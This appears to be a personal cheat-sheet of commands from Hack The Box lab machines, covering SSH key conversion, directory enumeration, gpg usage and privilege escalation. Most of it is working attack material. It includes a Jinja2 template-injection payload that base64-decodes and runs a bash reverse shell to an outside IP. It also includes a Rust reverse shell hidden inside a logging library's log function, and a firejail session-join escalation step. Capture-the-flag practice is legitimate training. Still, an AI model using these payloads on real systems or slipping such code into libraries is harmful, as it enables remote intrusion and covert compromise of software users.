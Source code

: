 
rødgrød med fløde
puttygen keeper.txt -0 private-openssh -0 id_rsa
chmod 600 id_rsa
ssh root@10.10.11.227 -i id_rsa



=================================================================================
gobuster dir -u https://ssa.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -k

gpg --gen-key
gpg --list-keys
gpg --armor --export test@test.com > public_key.asc
gpg --clear-sign --output signed.asc inp.txt
gpg --delete-secret-key memem
gpg --delete-key me@me.com
{{7*7}}

gpg -c <our_file> == encrypt our_file


{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMC84MDA4IDA+JjEK" | base64 -d | bash').read() }}

pspy

nano /opt/crates/logger/src/lib.rs

ctrl + 6
alt + /
ctrl + shift + k


https://stackoverflow.com/questions/48958814/what-is-the-rust-equivalent-of-a-reverse-shell-script-written-in-python

use std::net::TcpStream;
use std::os::unix::io::{AsRawFd, FromRawFd};
use std::process::{Command, Stdio};

pub fn log(user: &str, query: &str, justification: &str) {

    let sock = TcpStream::connect("10.10.14.10:8004").unwrap();
    let fd = sock.as_raw_fd();

    Command::new("/bin/bash").arg("-i")
        .stdin(unsafe { Stdio::from_raw_fd(fd) })
        .stdout(unsafe { Stdio::from_raw_fd(fd) })
        .stderr(unsafe { Stdio::from_raw_fd(fd) })
        .spawn().unwrap().wait().unwrap();
}

it shows the group id which is a vulnerability of firejail

firejail --join=96426  == join to this session or prosses





=================================================================================
clicker 

